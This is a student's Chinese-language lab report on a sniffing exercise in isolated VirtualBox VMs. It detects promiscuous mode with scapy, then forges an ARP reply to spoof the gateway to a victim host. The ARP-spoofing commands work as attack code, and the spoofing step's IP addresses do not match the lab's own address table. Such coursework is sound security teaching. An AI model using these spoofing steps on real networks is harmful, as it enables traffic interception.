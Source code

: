 # 第四次实验监听实验

## 实验环境

- VirtualBox 虚拟机
- 攻击者主机（Attacker）：Kali Rolling
- 网关（Gateway）：Debian Buster
- 靶机（Victim）：xp-sp3 / Kali 

## 第一个实验

### 实验准备

1. Attacker添加intnet2，保证主机、网关、靶机在同一局域网内

2. 打开kali，修改kali的配置文件，修改之后重启网卡，重新输入ip a，就可以获得kali的ip地址

   ![image-20230105160527668](img\kaliip.png)

3. 同理获取其余主机ip

   |           |       ip       |           mac            |
   | :-------: | :------------: | :----------------------: |
   | Attacker  | 172.16.222.129 |  08:00:27:00:b0:b9 eth1  |
   | Victim-XP | 172.16.222.144 |    08:00:27:22:9c:67     |
   |  Gateway  |  172.16.222.1  | 08:00:27:25:f9:45 enp0s9 |

### 没有开启混杂模式

在靶机上检测混杂模式

```shell
ip link show enp0s3
```

![](img\检查混杂模式.png)

在攻击者主机上开启scapy

```shell
sudo scapy
pkt = promiscping("172.16.222.144")
```

检测结果

![](img\scapy.png)

查看arp缓存表，没有在eth3这块网卡有新的IP与mac对应

![](img\arp缓存.png)

### 开启混杂模式

1. 开启靶机网卡的混杂模式

   ```shell
   sudo ip link set enp0s3 promisc on
   ip link show enp0s3
   ```

   成功开启

   ![](img\开启混杂模式.png)

2. Attacker继续执行上次的scapy命令

   ![](img\开启混杂模式之后.png)

3. 关闭混杂模式

   ![](img\关闭混杂模式.png)

## 第二个实验

获取当前局域网的网关 MAC 地址 构造一个 ARP 请求

```shell
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")
arpbroadcast.show() ##查看构造好的 ARP 请求报文详情
```

发送这个 ARP 广播请求

```shell
recved = srp(arpbroadcast, timeout=2)
gw_mac = recved[0][0][1].hwsrc
```

伪造网关的 ARP 响应包 准备发送给受害者主机192.168.0.102 ARP 

响应的目的 MAC 地址设置为攻击者主机的 MAC 地址 

```shell
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```

发送上述伪造的 ARP 响应数据包到受害者主机

```shell
sendp(arpspoofed)
```

## 反思总结

自我感觉本次实验完成度不高，依据老师的步骤照猫画虎完成。遇到的问题有在基本网络拓扑与网卡配置方面依旧出现了不少的问题。而且是新的拓扑图，需要去更改attacker的相关网络配置。以后需要多多练习，仔细观察。初步认识了scapy，了解了一些基本的语法与操作。

### 参考资料

[网络通信命令](https://blog.csdn.net/qq_41105501/article/details/117896789)

[Scapy](https://www.osgeo.cn/scapy/introduction.html)

https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html